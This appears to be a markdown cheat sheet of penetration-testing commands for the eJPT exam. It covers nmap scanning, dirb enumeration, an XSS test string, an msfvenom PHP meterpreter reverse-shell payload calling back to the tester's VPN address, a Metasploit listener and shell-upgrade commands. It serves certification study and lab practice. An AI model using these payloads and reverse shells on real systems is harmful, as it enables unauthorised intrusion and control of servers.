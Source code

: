 # Cheat Sheet Commands for eJPT Exam

# Network Mapping

## Network Discovery Scan
```nmap -sn <target IPs/CIDR> -oN discovery.nmap```

## Enumerate live hosts

```nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open``` (practice 3)

# Enumerate Web App directories

```dirb http://targetip```

- Remember to view page source as well!!
# Web App Attacks

## XSS Examples

- Test for XSS 
`<script>alert(1)</script>` (Returns pop up window) 

# Prep for Reverse Shell 

## msfvenom 

- Possible malware to try on Apache servers 


```msfvenom -p php/meterpreter_reverse_tcp lhost=<VPN ip> lport=53 -o meterpreter.php```

## metasploit listener set up

```use exploit/multi/handler```
```set lhost <VPN IP>```
```set payload php/meterpreter_reverse_tcp```
```set lport 53```
```run```

# After obtaining reverse shell in meterpreter

- Friendlier terminal prompt within meterpreter
`shell`
`bash -i`

- Spawn terminal 

`python -c 'import pty;pty.spawn("/bin/bash")';`

# Post Exploitation Checks 

- Always check /etc/hosts file 
- Check /var/www for flag
